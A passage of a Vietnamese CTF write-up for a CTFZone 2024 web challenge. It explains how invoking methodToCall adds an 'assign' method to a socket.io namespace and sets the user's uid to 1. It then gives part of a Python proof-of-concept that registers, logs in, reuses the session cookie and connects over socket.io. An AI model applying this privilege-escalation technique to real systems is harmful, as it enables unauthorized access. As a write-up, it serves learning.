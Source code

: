 Sau khi chạy methodToCall thì Namespace đã có method assign

![image](https://hackmd.io/_uploads/HJ0RjSP50.png)

Lúc này uid của người dùng đã là 1

![image](https://hackmd.io/_uploads/rkgvhBD5R.png)

Bây giờ chỉ cần emit button.get với data idButton là trong range(1,26) nữa và nhận flag.

### exploit local + real server

poc:

```
l3mnt2010@ASUSEXPERTBOOK:~/ctfZone2024/breathtaking-roulette$ cat e.py
import socketio
import asyncio
import httpx
import random
import string


BASE_URL = "http://localhost"
#BASE_URL = "http://funny-buttons.ctfz.zone"


def button_id():
    return random.randint(1, 25)


def random_string(length: int = 32):
    return "".join(random.choice(string.ascii_lowercase) for _ in range(length))


async def main():
    async with httpx.AsyncClient() as client:
        user = random_string(8)
        password = random_string(8)
        rsp = await client.post(
            f"{BASE_URL}/register",
            data={"name": user, "password": password},
            follow_redirects=True
        )
        assert rsp.status_code == 200
        rsp = await client.post(
            f"{BASE_URL}/login",
            data={"name": user, "password": password},
        )
        print(client.cookies)

    async with socketio.AsyncSimpleClient() as sio:
        await sio.connect(
            f'{BASE_URL}',
            headers={
                "Cookie": f"connect.sid={client.cookies['connect.sid']}",
            },
        )

        async def communicate(msg: str, data, receive_response: bool = True):
            print(f'Sending {msg} with {data = }')
            await sio.emit(msg, data)
            if receive_response:
                method, resp = await sio.receive()
                print(f'Received response for {method}: {resp}')
```